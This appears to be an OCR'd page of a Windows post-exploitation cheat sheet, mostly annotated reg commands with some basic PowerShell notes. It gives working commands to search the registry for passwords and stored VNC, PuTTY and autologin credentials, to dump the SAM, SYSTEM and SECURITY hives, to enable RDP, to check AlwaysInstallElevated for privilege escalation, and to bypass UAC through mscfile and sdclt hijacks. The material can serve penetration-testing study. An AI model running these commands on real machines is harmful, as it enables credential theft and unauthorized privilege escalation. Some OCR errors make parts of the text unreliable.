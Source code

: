     -find unquote service path
 
   
   
REGISTRY
*note HKLM keys are for HKey local machine registry
*HKCU keys are for HKey current user registry entries
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    -together allow users of any privilege level to install *.msi files as NT AUTHORITY\SYSTEM
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    -enable RDP
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
    -grep the registry for key word "password"
REG add "HKLM\SYSTEM\CurrentControlSet\services\RpcSs" /v Start /t REG_DWORD /d 2 /f
    -change startup type for rpc service to automatic
REG add "HKLM\SYSTEM\CurrentControlSet\services\RpcSs" /v Start /t REG_DWORD /d 4 /f
    -change startup type for rpc service to disabled
reg add
"HKEY_LOCAL_MACHINE\SYSTEM\Current ControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
reg query HKLM /s /d /f "C:\* *.exe" | find /I "C:\" | find /V """"
    -(win7) curely registered executables within the system registry
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    -windows autologin
reg query "HKCU\Software\ORL\WinVNC3\Password"
    -vnc stored password
reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"
    -putty cleartext credentials
reg save HKLM\Security security.hive    --save security.hive
reg save HKLM\System system.hive    --save system hive to file
reg save HKLM\SAM sam.hive  --save sam to file
reg add HKEY_CURRENT_USER\Software\Classes\mscfile\shell\open\command /d "cmd.exe" /f && START /W CompMgmtLauncher.exe && reg delete HKEY_CURRENT_USER\Software\Classes\mscfile /f
    -UAC bypass for win 7/8/10
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /d "cmd.exe" /f && START /W sdclt.exe && reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /f
    -UAC bypass for win 10
 
START>Administrative Tools>Server Manager>Features>Add Features>Administrative Tools>Windows Powershell
    -enable powershell on machine
POWERSHELL
syntax (from cmd.exe, where installed):
    Special Characters
" The beginning (or end) of quoted text
# The beginning of a comment
$ The beginning of a variable
& Reserved for future use
( ) Parentheses used for subexpressions
; Statement separator
{ } Script block
| Pipeline separator
` Escape character
    .\Powershell.exe -command <command> <parameter(s)>
    attrib +R c:\path\to\file.txt
    $var = "hello"
    Powershell.exe -command Get-HotFix
        -check Windows patch level